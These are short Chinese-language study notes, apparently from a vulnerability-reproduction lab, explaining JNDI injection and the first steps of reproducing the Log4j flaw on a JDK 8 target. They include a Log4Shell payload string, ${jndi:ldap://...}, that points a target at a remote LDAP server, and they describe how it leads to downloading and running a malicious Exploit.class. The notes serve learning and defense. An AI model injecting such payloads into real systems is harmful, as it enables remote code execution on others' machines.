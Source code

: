 ```
JNDI可以访问的服务
LDAP目录服务、RMI远程方法调用、DNS、XNam 、Novell目录服务、 CORBA对象服务、文件系统、Windows XP/2000/NT/Me/9x的注册表、DSML v1&v2、NIS。

JNDI和LDAP的关系
${jndi:ldap://wuya.com:5678/test}通过名字，查找（lookup）LDAP的服务，获取LDAP中存储的数据
```

```
什么是JNDI注入漏洞？
这里涉及到一个知识点，JNDI命名引用（NamingReference）
1、在LDAP里面可以存储一个外部的资源，叫做命名引用，对应Reference类比如远程HTTP服务的一个.class文件，这个很简单，就是说ldap存了name,但是具体的内容存放在外部，并没有放到ldap，这就是命名引用。
2、如果JNDI客户端，在LDAP服务中找不到对应的资源(test)，就去指定的地址请求。如果是命名引用，会把这个文件下载到本地。test不存在，下载Exploit.class，那么就可能下载到恶意文件。
3、如果下载的.class文件包含无参构造函数或静态方法块，加载的时候会自动执行，那么就可能执行到恶意代码。
```

```
JNDI漏洞注入流程
首先会传恶意参数，使得靶机使用lookup去访问不存在的ldap资源，那么就会去访问ldap服务器所指定的地址，那么这样就会下载到恶意文件，下载之后就会触发自动执行，导致远程代码执行。
```

![image-20241126201104950](CVE漏洞复现/image-20241126201104950.png)	

```
接下来开始复现log4j漏洞，首先查看版本确定是jdk8的版本，只有jdk8版本及以下才能复现成功。
然后编译Exploit.java文件得到Exploit.class文件。
```

